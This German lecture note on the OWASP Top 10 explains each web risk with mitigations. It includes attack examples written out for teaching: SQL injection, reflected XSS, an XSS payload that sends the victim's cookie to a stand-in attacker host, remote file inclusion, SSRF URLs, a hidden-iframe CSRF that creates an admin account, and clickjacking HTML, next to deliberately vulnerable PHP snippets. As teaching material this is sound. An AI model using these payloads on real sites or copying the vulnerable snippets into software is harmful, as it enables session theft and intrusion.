





# 18 — OWASP & Web-Sicherheit

**Folien:** [[web-engineering/resources/18-OWASP.pdf|18-OWASP.pdf]]
**Lernziele:** [[web-engineering/lernziele/webeng-lernziele-12|Lernziele Vorlesung 12]]

## Inhaltsverzeichnis

- [[#Was ist OWASP?|Was ist OWASP?]]
- [[#Risikobewertung der OWASP Top 10|Risikobewertung der OWASP Top 10]]
- [[#OWASP Top 10 im Überblick|OWASP Top 10 im Überblick]]
- [[#1 Broken Access Control|#1 Broken Access Control]]
- [[#2 Cryptographic Failures|#2 Cryptographic Failures]]
- [[#3 Injections|#3 Injections]]
- [[#3b Cross-Site-Scripting (XSS)|#3b Cross-Site-Scripting (XSS)]]
- [[#Content Security Policy (CSP)|Content Security Policy (CSP)]]
- [[#4 Insecure Design|#4 Insecure Design]]
- [[#5 Sicherheitsrelevante Fehlkonfiguration|#5 Sicherheitsrelevante Fehlkonfiguration]]
- [[#6 Anfällige und veraltete Komponenten|#6 Anfällige und veraltete Komponenten]]
- [[#7 Fehler bei Identifizierung und Authentifizierung|#7 Fehler bei Identifizierung und Authentifizierung]]
- [[#8 Software- und Datenintegritätsfehler|#8 Software- und Datenintegritätsfehler]]
- [[#9 Fehler bei Logging und Monitoring|#9 Fehler bei Logging und Monitoring]]
- [[#10 SSRF und Mishandling of Exceptional Conditions|#10 SSRF und Mishandling of Exceptional Conditions]]
- [[#Cross-Site-Request-Forgery (CSRF)|Cross-Site-Request-Forgery (CSRF)]]
- [[#Das iFrame-Problem: Clickjacking|Das iFrame-Problem: Clickjacking]]
- [[#Same-Origin-Policy (SOP)|Same-Origin-Policy (SOP)]]
- [[#Cross-Origin Resource Sharing (CORS)|Cross-Origin Resource Sharing (CORS)]]
- [[#SOP, CORS und CSP im Zusammenspiel|SOP, CORS und CSP im Zusammenspiel]]
- [[#BSI-Empfehlungen und weitere Header|BSI-Empfehlungen und weitere Header]]
- [[#Bezug zu Lernzielen|Bezug zu Lernzielen]]

---

## Was ist OWASP?

> [!quote] Definition (OWASP)
> Das **Open Web Application Security Project** ist eine **Non-Profit-Organisation** mit dem Ziel, die Sicherheit von Anwendungen und Diensten im WWW zu verbessern.

- Betreibt zahlreiche Projekte zur Sensibilisierung: **Guides, Tools, Talks, Papers, …**
- Veröffentlicht in unregelmäßigen Abständen die **»OWASP Top 10«** — eine Liste der zehn kritischsten Sicherheitsrisiken für Webanwendungen.
- Es gibt sogar spezielle Listen, z.B. eine **PHP Top 5**.
- Bekanntes Tool: **OWASP Zed Attack Proxy (ZAP)** — populäres freies Web-Security-Tool.

Die Liste wird in Versionen fortgeschrieben (2017 → 2021 → 2025). Über die Jahre wandern Kategorien, werden zusammengefasst oder neu eingeführt:

- **2021 neu:** Insecure Design, Software and Data Integrity Failures, SSRF.
- **2025 neu:** Software Supply Chain Failures, Mishandling of Exceptional Conditions. SSRF (2021) wurde 2025 vollständig in **A01: Broken Access Control** integriert.

> [!info] Hinweis
> Diese Notiz orientiert sich an der Nummerierung der Vorlesung, die überwiegend **2021** verwendet, aber punktuell auf 2025 verweist (z.B. Supply-Chain-Failures, Mishandling of Exceptional Conditions).

---

## Risikobewertung der OWASP Top 10

Jedes Risiko entsteht aus einer Kette: **Bedrohungsquelle → Angriffsvektor → Schwachstelle → (fehlende) Sicherheitsmaßnahme → technische Auswirkung → Auswirkung auf das Unternehmen.**



> [!tip] Merke — Risikoformel
> **Risiko = Wahrscheinlichkeit × Auswirkung.**
> Die **Wahrscheinlichkeit** eines Angriffs ist der **Mittelwert aus Ausnutzbarkeit, Verbreitung und Auffindbarkeit** (jeweils bewertet 1 = schwierig/selten … 3 = einfach/sehr häufig).

Beispiel-Bewertung (2017): Injection erhielt Wert **8,0** (höchstes Risiko), Unzureichendes Logging & Monitoring nur **4,0**.

---

## OWASP Top 10 im Überblick

| # (2021) | Bedrohung | Beispiel | Vermeidung / Mitigation |
|---|---|---|---|
| **A1** | Broken Access Control (Fehler in der Zugriffskontrolle) | IDOR: Buchungsnummer in URL ändern und fremde Buchung sehen | Least Privilege, **Deny-by-Default**, serverseitige Autorisierungsprüfung |
| **A2** | Cryptographic Failures | Passwörter ohne Salt / mit MD5; kein HTTPS | HTTPS + **HSTS**, starke Verfahren, Salt + moderne Hashes (bcrypt, SHA-2) |
| **A3** | Injection (inkl. XSS ab 2021) | `?id=42;DROP TABLE user`; `<script>…</script>` im Suchfeld | Eingaben **validieren**, Prepared Statements, Output-Encoding |
| **A4** | Insecure Design | Fehlerhafter "Passwort vergessen"-Workflow; keine Mandantentrennung | **Security by Design**, Threat Modeling (OWASP SAMM) |
| **A5** | Security Misconfiguration | Debug-Modus in Produktion, Default-Passwort, Stacktraces sichtbar | Härtung, Default-Accounts entfernen, Fehler nur ins interne Log |
| **A6** | Vulnerable & Outdated Components | Log4j, Heartbleed, veraltete Libraries im IoT | Regelmäßige Patches/Updates, Dependency-Scans |
| **A7** | Identification & Authentication Failures | Session-Fixation, Session-ID in URL, Klartext-Passwörter | MFA, Session-ID-Wechsel beim Login, Framework-Session-Management |
| **A8** | Software & Data Integrity Failures | SolarWinds (Malware in Build-Chain); unsichere Deserialisierung | Integrität prüfen (Signaturen), vertrauenswürdige Quellen/CDNs |
| **A9** | Security Logging & Monitoring Failures | Airline-Breach: 400.000 Kunden, £20 Mio Strafe | Zeitstempel/IP/User-ID loggen, Alert Fatigue vermeiden |
| **A10** | Server-Side Request Forgery (SSRF) | `?url=http://127.0.0.1:8080/admin` | Eingaben prüfen, interne Ziele per Whitelist beschränken |

---

## #1 Broken Access Control

> [!quote] Definition
> Entsteht, wenn eine **unzureichende Durchsetzung von Zugriffskontrollen und Autorisierungsmaßnahmen** Angreifern den Zugriff auf nicht autorisierte Funktionen oder Daten ermöglicht. Häufig zurückzuführen auf unsichere direkte Objektreferenzen (**IDOR — Insecure Direct Object References**).

Typische Auswirkungen: Umgehen der Zugangskontrolle, unautorisierter Zugang zu Accounts, unautorisiertes Anlegen/Lesen/Ändern/Löschen von Daten, Ausweitung der Privilegien.

**Ursachen:**

- Verletzen des **Least-Privilege-Prinzips** oder fehlendes **Deny-by-Default** → Zugriff für jeden offen.
- Authentifizierte/privilegierte Seiten sind auch als Standardbenutzer aufrufbar.
- Umgehen von Zugriffskontrollprüfungen durch Ändern der URL, des internen Anwendungsstatus oder einfach mit einem API-Angriffswerkzeug.
- **IDOR:** Änderbarkeit des Primärschlüssels — Eingabe eines Datenbankfeldes liefert das Datum eines anderen Benutzers (z.B. Buchungsnummer).
- Fehlkonfigurationen von CORS ermöglichen unbefugten API-Zugriff.
- **Elevation of Privilege**; Metadata-Manipulation, z.B. Replay-Attacken mit JWT oder Cookie.

> [!example] Beispiel — IDOR
> `GET /rechnungen/1001` zeigt Ihre Rechnung. Ändern Sie manuell auf `GET /rechnungen/1002`, und ohne Autorisierungsprüfung erhalten Sie die Rechnung eines fremden Kunden.

---

## #2 Cryptographic Failures

> [!quote] Definition
> Unzureichender Schutz vertraulicher Daten bei **Übertragung oder Speicherung**, z.B. Speicherung im Klartext, unsichere Schlüsselverwaltung oder Fehler in kryptographischen Protokollen.

Typische Fehler:

- Fehlende Nutzung von **HTTPS**.
- Einsatz veralteter kryptographischer Verfahren und Protokolle.
- **Kein Salt** und/oder alte Hash-Funktionen für Passwörter.
- Fehlende Nutzung von **HSTS** (Möglichkeiten, die verwendeten Verfahren zu beeinflussen / downzugraden).
- Einsatz von **Default-Keys**, alter Pseudo-Zufallszahlengenerator.
- Unnötiges Abspeichern und Bewahren vertrauenswürdiger Daten.

---

## #3 Injections

> [!quote] Definition (Injection)
> Injection-Schwachstellen (SQL-, OS-, LDAP-Injection) treten auf, wenn **nicht vertrauenswürdige Daten von einem Interpreter als Teil eines Kommandos oder einer Abfrage** verarbeitet werden. Der Angreifer manipuliert Eingabedaten so, dass nicht vorgesehene Kommandos ausgeführt werden oder er unautorisiert auf Daten zugreift.

Arten: **SQL Injection**, **Command Injection**, **Code Injection / Remote Code Execution**, und (seit 2021) **Cross-Site-Scripting (XSS)**.

> [!warning] Achtung — Never trust the client!
> Nutzereingaben **immer validieren** und klar definieren, was vom Nutzer kommt und was Ausgabe des Programms ist. **Serverseitige Prüfung ist zwingend** — niemals auf clientseitige Prüfung (JavaScript oder HTML) vertrauen.

### SQL Injection

Fehlende Validierung/Maskierung von Benutzereingaben führt zu ungewollten Datenbankstatements.

> [!example] Beispiel — SQL Injection
> **Erwartet:** `page.php?id=42` → `SELECT titel, text FROM artikel WHERE ID=42;`
> **Angriff:** `page.php?id=42;DROP+TABLE+user` → `SELECT titel, text FROM artikel WHERE ID=42; DROP TABLE user;`
>
> Gegenmaßnahme: **Prepared Statements** (Parameter werden nie als Code interpretiert).

### Command Injection

> [!example] Beispiel — Command Injection (schlecht)
> ```php
> <?php
>   echo exec('find -name "' . $_GET['file'] . '"');
> ?>
> ```
> Der Nutzer kontrolliert `$_GET['file']` und kann durch Einschleusen von Shell-Metazeichen beliebige Systemkommandos ausführen. Verwandt: **CVE-2024-4577** (PHP im CGI-Modus auf Windows mit asiatischen Zeichensätzen).

### Code Injection / Remote Code Execution (RCE)

> [!example] Beispiel — RCE per require
> ```php
> $page = 'start';
> if (isset($_GET['page'])) { $page = $_GET['page']; }
> require($page . '.php');
> ```
> Der Anwender kann eine **beliebige PHP-Datei** einbinden. Bei schlechter Konfiguration sogar externen Code: `?page=http://example.com/attack` bindet und **führt** `attack.php` aus. Beispiel aus der Praxis: **Log4j-Bug (CVE-2021-44228)** — JNDI/LDAP-Lookup lädt entfernte Klasse vom Angreiferserver.

> [!success] Best Practice — RCE verhindern
> **Whitelisting:** Nur explizit freigegebene Dateien dürfen eingebunden werden (z.B. Array im Code oder Datenbank). Niemals Nutzereingaben direkt in `require`/`include`/`exec` verketten.

---

## #3b Cross-Site-Scripting (XSS)

> [!quote] Definition (XSS)
> XSS tritt auf, wenn Anwendungen **nicht vertrauenswürdige Daten entgegennehmen und ohne Validierung oder Umkodierung an einen Webbrowser senden** — oder wenn eine Anwendung HTML-/JavaScript-Code auf Basis von Nutzereingaben erzeugt. XSS ist damit eine Form der **Injection**.

XSS erlaubt einem Angreifer, **Scriptcode im Browser des Opfers auszuführen**: Benutzersitzungen übernehmen, Seiteninhalte verändern, auf bösartige Seiten umleiten. Für den Browser stammt der Code scheinbar von einer **vertrauenswürdigen Seite**. Häufig werden manipulierte Hyperlinks und **Cookies** genutzt.

> [!tip] Merke
> Cookies unbedingt mit **`HTTPOnly`** versehen! Dann kann JavaScript (und damit ein XSS-Skript) die Cookies **nicht auslesen**.

### Drei Arten von XSS

| Art | Ablauf | Beispiel |
|---|---|---|
| **Reflektiert** (nicht-persistent) | Script-Anweisung wird nicht dauerhaft gespeichert, sondern im Request mitgeschickt und in die Antwort gespiegelt. Angriff per Link (Email/externe Seite). | Suchanfrage `search.php?q=<script>…</script>` |
| **Persistent** (beständig) | Script wird auf einem eigentlich vertrauenswürdigen Server **gespeichert** und in die Seite eingebunden. | Forum, Blog, Benutzerprofil, Feedback-Formular |
| **DOM-basiert** (lokal) | Ähnlich reflektiert, aber die JavaScript-Applikation liest Clientdaten ein (z.B. aus der URL) und verändert das **DOM** direkt — Daten verlassen den Browser nie. | `document.querySelector('em').innerHTML = location.search.substring(6)` |

> [!example] Beispiel — reflektiertes XSS
> Serverseitiger Code:
> ```php
> echo '<p>Sie suchen nach: ' . $_GET['q'] . '.</p>';
> ```
> **Angriff:** `search.php?q=<script>alert("XSS!!");</script>`
> **Ausgabe:** `<p>Sie suchen nach: <script>alert("XSS!!");</script>.</p>` — das Skript wird ausgeführt.

> [!example] Beispiel — Cookie-Diebstahl per XSS
> Ein verwundbares Formular spiegelt einen Parameter ungeprüft zurück:
> ```js
> page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
> ```
> Der Angreifer setzt `CC` auf:
> ```html
> '><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>
> ```
> → Das Opfer-Cookie wird an den Angreiferserver gesendet.



> [!success] Best Practice — OWASP XSS Prevention Cheat Sheet
> 1. **Input Validation & Sanitization** — Whitelist-Validierung wo möglich (erste Verteidigungslinie).
> 2. **Context-sensitive Output Encoding** — je nach Kontext unterschiedlich kodieren (HTML-Entity, HTML-Attribut, URI, JavaScript, CSS). Z.B. `<` → `&lt;`, `&` → `&amp;`.
> 3. **HTTPOnly-Cookie-Flag** — verhindert Auslesen der Cookies via JavaScript.
> 4. **Content Security Policy (CSP)** implementieren.
> 5. **Encoding auf Client UND Server** — nötig gegen DOM-basiertes XSS, bei dem Daten den Browser nie verlassen.

---

## Content Security Policy (CSP)

> [!quote] Definition (CSP)
> CSP ist ein **browserseitiger Mechanismus**, der über einen HTTP-Header **Whitelists** für clientseitige Ressourcen (JavaScript, CSS, Bilder …) definiert. Der Browser lädt/rendert nur Ressourcen aus den erlaubten Quellen.

- Primärer Anwendungsfall: **Schutz vor XSS** — steuert, welche Ressourcen (v.a. JavaScript) ein Dokument laden darf.
- **Trusted Types** ist eine Browser-Sicherheitsfunktion, die **DOM-basiertes XSS** komplett verhindert: der Browser sperrt die direkte Übergabe von rohen Strings an riskante Senken; dann muss eine Bibliothek wie **DOMPurify** verwendet werden.
- CSP schützt auch vor **Clickjacking** (via `frame-ancestors`) und erzwingt HTTPS-Laden.

```
Content-Security-Policy: default-src 'self' *.mydomain.com
Content-Security-Policy: default-src 'self'; img-src 'self' example.com
```

Konfiguration serverseitig z.B. per **helmet** (Express):

```js
app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", "'nonce-abc123'"],  // Inline-Scripts brauchen Nonce
    styleSrc:  ["'self'", "'nonce-xyz123'"],
  },
}));
```

---

## #4 Insecure Design

> [!quote] Definition
> Kategorie verschiedener Schwachstellen durch **fehlende oder ineffektive Sicherheitskontrollen und architektonische Fehler**. Gemeint ist das **Design**, nicht die Implementierung.

Beispiele:

- Fehlerhafter Workflow bei der Wiederherstellung von Credentials ("Passwort vergessen" ermöglicht Fremden Zugang).
- Übernahme von Daten ohne Prüfung relevanter Schranken (Buchung von mehr Sitzplätzen als vorhanden).
- **Fehlende Mandantentrennung.**

> [!success] Best Practice — Security by Design
> IT-Systeme werden von der ersten Idee an so konzipiert, dass sie **von Grund auf sicher** sind. Orientierung bietet das **OWASP SAMM (Software Assurance Maturity Model)** mit den Business-Funktionen Governance, Design, Implementation, Verification, Operations (u.a. Threat Assessment/Threat Modeling im Design).

---

## #5 Sicherheitsrelevante Fehlkonfiguration

> [!quote] Definition
> Unsichere Standardkonfigurationen, unvollständige/ad-hoc-Konfigurationen, ungeschützte Cloud-Speicher, fehlkonfigurierte HTTP-Header und Fehlerausgaben, die vertrauliche Daten enthalten.

Angreifer nutzen oft Standard-Konten, ungenutzte (Beispiel-)Seiten und ungeschützte Dateien aus.

**Typische Fehlkonfigurationen des Servers:**

- Unnötige Features aktiviert (PHP: `magic_quotes`, `register_globals`).
- Standard-Accounts noch aktiv (Typo3-Standardpasswort "joh316" für den Adminbereich).
- **Fehlermeldungen/Stacktraces** werden dem Benutzer gezeigt, statt nur ins interne Error-Log — gibt sensible Infos preis.
- Server läuft im **Entwicklungsmodus** (Debug aktiv, XAMPP von Dev nach Prod übernommen, phpMyAdmin öffentlich).

---

## #6 Anfällige und veraltete Komponenten

> [!quote] Definition
> Betriebssysteme, Frameworks, Bibliotheken und Anwendungen müssen sicher konfiguriert werden und **zeitnah Patches und Updates** erhalten.

- Angreifer suchen gezielt **ungepatchte Schwachstellen**.
- Besonders problematisch im **IoT-Bereich** — dort teilweise noch Systeme, die der **Heartbleed**-Attacke unterliegen.

---

## #7 Fehler bei Identifizierung und Authentifizierung

> [!quote] Definition
> Durch Schwachstellen in Authentifizierung, Identität und **Sitzungsverwaltung** können Angreifer Benutzerkonten, Passwörter und Sitzungstoken kompromittieren oder unsichere Sitzungsverarbeitung ausnutzen (z.B. Sessions, die bei Abmeldung/Inaktivität nicht ordnungsgemäß entwertet werden).

### Passwörter sicher speichern

- Mit **"sicheren" Hash-Funktionen** ("SHA2-Familie": SHA-256, SHA-512, …).
- **Salt verwenden:** zufällige Zeichenfolge, die an das Passwort angehängt wird → verhindert **Rainbow Tables** (Tabellen von Wort→Hash, mit denen aus einem Hash der Klartext ermittelt wird).

> [!success] Best Practice — Passwort-API
> Die **Passwort-API** (`password_hash` / `password_verify`) generiert Salt automatisch. Beispiel:
> ```php
> echo password_hash('superPW123', PASSWORD_BCRYPT);
> // $2y$10$haURtemZLULGRZatmmfeKuemcoUHunYpBUfE6EqZ6lnJW579gXa56
> //   1  2         3                        4
> ```
> 1 = Typ der Hashfunktion, 2 = Kostenfaktor/Runden (Standard 10), 3 = Salt (von PHP generiert), 4 = eigentlicher Hashwert.

> [!info] Hinweis — Warum überhaupt Passwörter im Klartext an den Server?
> Bei klassischer Passwort-Auth übermittelt der Client sein Geheimnis im Klartext (auch wenn TLS den Weg verschlüsselt) — der Server **sieht** das Passwort. Bei **zertifikatsbasierter Auth** verlässt der private Schlüssel nie das Gerät; der Server erhält nur eine digitale Signatur als Beweis. Der **Passkey-Standard** vereint beides: das Gerät erzeugt ein Schlüsselpaar (kein Passwort beim Server), freigeschaltet per Biometrie und synchronisiert über die Anbieter-Cloud.

### Session-Angriffe

- **Session über Adresszeile:** Session-ID in der URL (statt Cookie) → wer einen Link teilt, teilt seinen Login-Status.
- **Session Fixation:** Angreifer schickt dem Opfer einen Link mit vorgegebener Session-ID; loggt sich das Opfer damit ein, kennt der Angreifer die ID und ist als Opfer eingeloggt.
- **Session-IDs, die nie erneuert werden / nie auslaufen.**

> [!success] Best Practice — Maßnahmen
> - Wenn möglich **Mehrfaktor-Authentisierung**.
> - Keine Standardbenutzer im Auslieferungszustand (v.a. keine administrativen).
> - **Wechsel der Session-ID bei jedem Login** (verhindert Session Fixation) und **Begrenzung der Lebensdauer**.
> - Begrenzung der Fehlversuche (ggf. mit Verzögerung).
> - Session-IDs **nicht in der URL**, sicher gespeichert, nach Abmeldung/Inaktivität entwertet.
> - Am besten das **Session-Management eines Frameworks** nutzen — dort sind die Probleme meist gelöst.

---

## #8 Software- und Datenintegritätsfehler

> [!quote] Definition
> Entstehen, wenn Anwendungscode und Infrastruktur **nicht vor Integritätsverletzungen geschützt** sind — z.B. durch Laden von Modulen aus nicht vertrauenswürdigen Quellen, Repositories und CDNs.

- Angreifer laden eigene Updates hoch, die auf allen Installationen verteilt und ausgeführt werden.
- **Unsichere Deserialisierung:** eine Anwendung verarbeitet nicht vertrauenswürdige serialisierte Daten, ohne deren Gültigkeit sicherzustellen → RCE und Rechteausweitung.
- **SolarWinds Orion:** Supply-Chain-Attacke — Schadsoftware in die **Build-Chain** gebracht, bis zu 30.000 Systeme infiltriert.
- 2025 als **Software Supply Chain Failures** eigenständig: unbekannte Abhängigkeiten, veraltete Systeme, fehlende Scans, mangelnde Absicherung/Rechtevergabe der Pipeline, kein Vier-Augen-Prinzip (Separation of Duty), zu langsames Patchen, unsichere CI/CD-Pipelines.

> [!tip] Merke
> Kern: Software-Updates oder kritische Daten wurden verarbeitet, **ohne deren Integrität zu prüfen** (z.B. per Signatur).

---

## #9 Fehler bei Logging und Monitoring

> [!quote] Definition
> Unzureichendes Logging und Monitoring führt zusammen mit fehlender/uneffektiver Reaktion zu andauernden Angriffen. Studien: Zeit bis zur Aufdeckung eines Angriffs liegt bei ca. **200 Tagen** und wird typischerweise durch **Dritte** entdeckt, nicht durch interne Kontrollen.

- Angreifer nutzen Lücken über lange Zeit, ohne aufzufallen.
- Logs enthalten oft eine Fehlermeldung, aber **keine Zeitstempel, Quell-IP-Adressen oder Benutzer-IDs** → forensische Nachverfolgung unmöglich.
- **Alarm-Müdigkeit (Alert Fatigue):** das System warnt bei jeder Kleinigkeit → echte Angriffe gehen unter.

> [!example] Beispiel
> Eine große europäische Airline erhielt einen DSGVO-relevanten Zugriff (Exploit): **>400.000 Kunden** samt Bezahlinformationen betroffen, **£20 Mio Strafe**. Jeder Zugriff hätte protokolliert werden müssen, um den unberechtigten Zugriff frühzeitig zu erkennen.

---

## #10 SSRF und Mishandling of Exceptional Conditions

### Server-Side Request Forgery (SSRF, A10:2021)

> [!quote] Definition (SSRF)
> Entsteht, wenn eine Anwendung Benutzereingaben **nicht überprüft oder bereinigt, bevor Daten von einer Remote-Ressource abgerufen werden**.

Angreifer bauen in vom Server übernommene Daten eine Aktion ein, um über den Server **Zugriff auf interne oder nachgelagerte Ressourcen** zu erhalten. Ausgenutzt wird, dass viele Webserver in der **DMZ** stehen und auf interne Ressourcen zugreifen können.

> [!example] Beispiel — SSRF
> ```php
> <?php
> $image_url = $_GET['url'];
> $image = file_get_contents($image_url);
> header('Content-Type: image/jpeg');
> echo $image;
> ?>
> ```
> Statt einer Bild-URL trägt der Angreifer eine **interne Adresse** ein: `http://127.0.0.1:8080/admin` oder `http://localhost:3306` (Datenbankport). Der Server ruft die interne Ressource ab.

> [!info] Hinweis
> **SSRF wurde 2025 vollständig in A01: Broken Access Control (Defekte Zugriffskontrolle) integriert.**

### Mishandling of Exceptional Conditions (A10:2025, neu)

- **Fail-Open-Prinzip:** Ein Sicherheits-/Auth-Modul stürzt bei unerwartetem Input ab. Statt zu sperren (**Fail-Secure**), schaltet das Modul auf "Durchzug" und gewährt Zugriff ohne Login.
- **Auslösen von Systemabstürzen (DoS):** bewusst Parameter senden, die zu unbehandelten Fehlern führen (NullPointerException, Speicherüberlauf) → Instanz stürzt ab.
- **Informationsabfluss durch Stacktraces:** rohe Fehlermeldung inkl. SQL-Struktur und Dateipfaden hilft bei gezielten SQL-Injections.

---

## Cross-Site-Request-Forgery (CSRF)

> [!quote] Definition (CSRF)
> **»Fälschung« einer Anfrage über einen anderen Benutzer.** Ein Benutzer ist auf einer Webseite autorisiert; eine bösartige Webseite bindet diese ein (z.B. per iFrame) und führt eine Operation **unter der Berechtigung des Benutzers** aus.

Der Angriff funktioniert, weil der Browser **automatisch die Cookies** (inkl. Session-Cookie) der Zieldomain mitschickt — auch wenn die Anfrage von einer fremden Seite ausgelöst wird.

> [!example] Beispiel — CSRF per iFrame
> X hat es auf Administrator Y von `example.com` abgesehen. X erstellt eine Seite und schickt Y (anonym) einen Link:
> ```html
> <iframe src="http://example.com/admin/createAdminAccount.php?name=admin2&pw=test"></iframe>
> ```
> `createAdminAccount.php` legt einen Admin-Account an, kann aber nur von einem Administrator aufgerufen werden. Ist Y eingeloggt, wird der Account erstellt. Mit `<iframe width="0" height="0" border="0">` ist der Angriff kaum zu erkennen.

Realer Fall: **T-Online (2013)** — eine präparierte Seite schickte im Hintergrund `http://mail.t-online.de/service.php?action=unregister`, wodurch der Mail-Alias freigegeben und vom Angreifer neu registriert werden konnte. Auch **Facebook** zahlte $25.000 Bounty für eine kritische CSRF-Lücke.



> [!success] Best Practice — CSRF-Token
> - Beim Login wird ein **CSRF-Token** generiert (z.B. 20-stelliger Zufallswert).
> - Alle **PUT/POST/DELETE**-Anfragen enthalten das Token zusätzlich:
>   - als Hidden-Field: `<input type="hidden" name="token" value="3dkl3kcualidkladfjiel" />`
>   - besser als benutzerdefinierter **HTTP-Header** (z.B. `X-CSRF-Token`) — deutlich sicherer als im Formularkörper.
>   - Token im URL-Parameter ist **nicht empfehlenswert** (leicht erkennbar).
> - Der Wert kann von einer externen Webseite **nicht herausgefunden** werden (Same-Origin-Policy). Fehlt/mismatcht das Token → **Token Mismatch**, Angriff schlägt fehl.

> [!warning] Achtung — was NICHT verhindert werden kann
> - **XSS umgeht CSRF-Schutz:** Öffnet der Nutzer eine öffentliche Unterseite *derselben Domain* (Tab 2) mit eingeschleustem XSS-Skript, bricht die SOP nicht ab. Da localStorage/Cookies **über alle Tabs geteilt** werden, kann das Skript das CSRF-Token (oder Session-JWT) legal auslesen. → Token so im Browser isolieren, dass andere Tabs sie nicht auslesen können (**In-Memory** statt localStorage).
> - **Clickjacking:** CSRF-Tokens helfen hier **nicht**, da sie in allen Tabs verfügbar sind und dem iFrame mitgegeben werden.
> - **IoT:** Alte Web-Server mit fehlerhaften Backends bleiben angreifbar (Buffer-Overflow per GET/POST auf interne IP, z.B. den Kühlschrank). Moderne Frameworks unterbinden CSRF für Web-Seiten — die Probleme verlagern sich eher.

---

## Das iFrame-Problem: Clickjacking

> [!quote] Definition (Clickjacking)
> Der Angreifer legt eine **transparente**, sensible Zielseite (per iFrame, `opacity: 0`) exakt über einen sichtbaren Köder-Button. Klickt der Nutzer den Köder, klickt er in Wirklichkeit den unsichtbaren Button der eingebetteten Seite.

> [!example] Beispiel — Clickjacking
> ```html
> <button id="fake-button">Hier klicken für ein Geschenk!</button>
> <iframe src="https://opfer-seite.de/sensible-aktion"
>         style="opacity:0; position:absolute; top:100px; left:50px;
>                width:300px; height:200px; z-index:2;"></iframe>
> ```
> Der sichtbare Button lockt; der Klick landet auf dem unsichtbaren iFrame — z.B. "Überweisen", "Gefällt mir", "Bestellen".

> [!success] Best Practice — Clickjacking verhindern (Response-Header)
